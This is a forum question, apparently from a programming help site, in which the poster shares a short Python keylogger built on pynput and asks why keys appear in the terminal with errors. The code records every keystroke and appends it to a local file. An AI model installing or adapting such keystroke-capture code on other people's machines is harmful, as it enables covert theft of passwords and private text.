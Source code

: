 
# Why my keys are shown in the terminal after the execution of the code, giving me errors?

I was writing a simple python code for keylogger, it worked fine until I saved and closed the file. After I reopen the file, it is now giving me this error. I am not able to figure out the reason behind the error.

`
import pynput
from pynput.keyboard import Key,Listener

count = 0
keys = []


def write_file(keys):
    with open("thefile.txt","a") as f:
        for key in keys:
            k = str(key).replace("'","")
            if k == Key.space:
                f.write(" ")
            if k == Key.enter:
                f.write("\n")
            f.write(k)


def press(key):
    global count,keys
    keys.append(key)         #this will update the keys list everytime we press the keys.
    count += 1               #this will count the number of presses
    print("{0} pressed".format(key)) #this will print every key being printed
    if count >=5:
        count = 0
        write_file(keys)
        keys = []

def release(key):
    if key == Key.esc:
        return False


with Listener(on_press= press, on_release= release) as listener:
    listener. Join()

`

        